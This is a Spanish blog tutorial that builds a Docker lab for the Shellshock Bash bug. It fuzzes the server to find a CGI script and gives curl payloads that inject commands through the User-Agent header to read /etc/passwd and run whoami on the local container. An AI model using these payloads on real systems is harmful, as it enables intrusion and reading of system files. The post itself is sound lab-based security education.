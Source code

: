 ```yaml
---
layout: single
title:  Explotando la vulnerabilidad shellshock en un entorno controlado
excerpt: "En este post mostraré como crear un pequeño laboratorio a traves de docker sobre la vulnerabilidad de shellshock hasta ganar acceso al sistema"
date: 2021-05-09
classes: wide
header:
    teaser: /assets/images/shellshock/portada2.png
    teaser_home_page: true
categories:
    - vulnerability
tags:
    - linux
    - docker
---
```



<p align="center">
<img src="/assets/images/shellshock/portada2.png">
</p>

- [Requisitos del laboratorio](#requisitos-del-laboratorio)
- [Laboratorio](#laboratorio)
- [Construyendo el Dockerfile](#construyendo-el-dockerfile)
- [Obteniendo una shell](#obteniendo-una-shell)

## Requisitos del laboratorio
- Maquina virtual Parrot OS
- Docker 
- Git 

## Shellshock ¿Que es?
Shellshock , también conocido como Bashdoor , es una familia de errores de seguridad de la familia Bash Unix.
Esta vulnerabilidad existe desde hace un tiempo, pero debido a la ubicuidad de las máquinas Unix conectadas a la web, Shellshock sigue siendo una amenaza muy real, especialmente para los sistemas sin parches.
Bash es un intérprete o intérprete que permite ejecutar comandos en un sistema, normalmente a través de una ventana de texto. Por lo general, es el shell predeterminado en los sistemas Unix y, como tal, se puede encontrar en Linux, macOS y otras variantes de Unix. Esta es la razón por la que Shellshock es tan severo: más de la mitad de los servidores web en Internet ejecutan Unix.

----

# Laboratorio
Para replicar esta vulnerabilidad en nuestro sistema es necesario descargar este [proyecto](https://github.com/Zenithar/docker-shellshockable) el cual viene un archivo Dockerfile que construiremos con docker para hacer nuestra práctica
```
git clone https://github.com/Zenithar/docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/1.PNG">
  </p>

## Contruyendo el Dockerfile
Teniendo ya el repositorio en nuestra maquina aplicaremos el siguiente comando como el usuario root.
```bash
sudo docker build -t shellshock docker-shellshockable
```
<p align="center">
<img src="/assets/images/shellshock/2.PNG">
  </p>

Listamos las todas las imagenes para verificar la construccion de la imagen shellshock.  
Y posteriormente corremos el contenedor
<p align="center">
<img src="/assets/images/shellshock/3.PNG">
  </p>

----

Con el comando ```ifconfig docker0``` comprobaremos en que segmento de red se encuentra el contenedor.
<p align="center">
<img src="/assets/images/shellshock/4.PNG">
  </p>


Se puede observar que la ip en el que se esta ejecutando el servicio web es la 172.17.0.2
<p align="center">
<img src="/assets/images/shellshock/5.PNG">
  </p>


Si nos dirigimos al navegador nos muestra la pagina por defecto de apache.
<p align="center">
<img src="/assets/images/shellshock/6.PNG">
  </p>


Aplicaremos fuzzing a la pagina web para ver que con cosas interesantes nos podemos topar para ello haré uso de la utilidad de dirsearch que lo puedes descargar de [aquí](https://github.com/maurosoria/dirsearch).

<p align="center">
<img src="/assets/images/shellshock/7.PNG">
  </p>

Si verificamos este directopio en la web nos manda un mensaje de que no tenemos acceso, sin embargo sabemos que existe asi que volveremos a aplicar fuzzing a esta ruta nueva.
<p align="center">
<img src="/assets/images/shellshock/8.PNG">
  </p>

Ha sido posible encontrar la ruta **/cgi-bin/sockme.cgi**.
<p align="center">
<img src="/assets/images/shellshock/9.PNG">
  </p>

El siguiente comando de POC es posible obtener ejecución remota de comandos dentro del servidor.
```bash
curl -A "() { foo;};echo;/bin/cat /etc/passwd" "http://172.17.0.2/cgi-bin/shockme.cgi"

```
<p align="center">
<img src="/assets/images/shellshock/10.PNG">
  </p>

----

## Obteniendo una shell
```bash
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'whoami'" "http://172.17.0.2/cgi-bin/shockme.cgi"
```
<p align="center">
<img src="/assets/images/shellshock/11.PNG">
  </p>






